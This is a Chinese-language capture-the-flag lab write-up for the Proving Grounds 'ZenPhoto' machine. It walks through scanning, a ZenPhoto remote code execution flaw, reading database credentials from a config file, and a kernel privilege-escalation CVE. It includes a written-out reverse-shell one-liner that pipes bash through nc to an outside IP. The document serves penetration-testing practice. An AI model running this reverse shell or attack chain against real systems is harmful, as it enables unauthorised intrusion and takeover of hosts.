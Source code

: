 ```yaml
---
title: Proving Grounds Practice-ZenPhoto
date: 2025-6-05 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


# 信息收集

## nmap

![image-20250605142130774](./ZenPhoto/image-20250605142130774.png)

# web

主页面就一行字，扫目录得到test目录

![image-20250605144428812](./ZenPhoto/image-20250605144428812.png)

test页面下才是cms的主页

![image-20250605170554558](./ZenPhoto/image-20250605170554558.png)

继续扫test目录，有robots目录，其中有很多可以访问的页面

![image-20250605144526209](./ZenPhoto/image-20250605144526209.png)

![image-20250605144533798](./ZenPhoto/image-20250605144533798.png)

![image-20250605154602217](./ZenPhoto/image-20250605154602217.png)

还有后台管理员页面，但是无法登录

![image-20250605144822402](./ZenPhoto/image-20250605144822402.png)

最后是在主页面的源码下看到版本号的

![image-20250605153349976](./ZenPhoto/image-20250605153349976.png)

该版本存在远程代码执行漏洞

![image-20250605153409178](./ZenPhoto/image-20250605153409178.png)

成功利用后可以命令执行

![image-20250605153414066](./ZenPhoto/image-20250605153414066.png)

可以执行该命令来反弹shell

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.243 80 >/tmp/f
```

![image-20250605153951962](./ZenPhoto/image-20250605153951962.png)

# 提权

前面robots目录下就给出了zp-data这个目录，但是其中的文件无法访问，拿到shell

之后去访问一下查看配置文件,其中有数据库账号密码，

`/var/www/test/zp-data/zp-config.php`

![image-20250605154526004](./ZenPhoto/image-20250605154526004.png)

本地开放了3306端口。可以在本地连接到数据库

![image-20250605154817984](./ZenPhoto/image-20250605154817984.png)

但是得到的这个密码是无法破解的

![image-20250605160327234](./ZenPhoto/image-20250605160327234.png)

查看内核搜索内核漏洞，14814这个exp利益失败

![image-20250605165244890](./ZenPhoto/image-20250605165244890.png)

上传`linpeas.sh`脚本，查看可以利用的cve,尝试后`cve-2010-3904`可以成功利用，上传到靶机编译之后再运行就可以获取root权限

![image-20250605165228111](./ZenPhoto/image-20250605165228111.png)

![image-20250605165711094](./ZenPhoto/image-20250605165711094.png)